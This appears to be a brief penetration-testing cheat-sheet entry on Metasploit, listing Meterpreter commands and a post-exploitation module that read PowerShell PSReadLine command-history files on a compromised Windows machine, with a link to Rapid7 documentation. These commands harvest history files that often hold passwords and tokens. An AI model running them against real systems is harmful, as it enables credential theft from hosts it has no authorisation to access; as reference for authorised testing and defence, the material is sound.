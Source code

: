 # Metasploit

## 01 - Meterpreter Command

```
meterpreter > cat %USERPROFILE%/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt

meterpreter > cat %ALLUSERPROFILE%/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
```

## 02 - Post Module

```
meterpreter > run post/windows/gather/psreadline_history
```

---
## References

- [Rapid7: Metasploit Framework - PSReadline History Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/psreadline_history.md)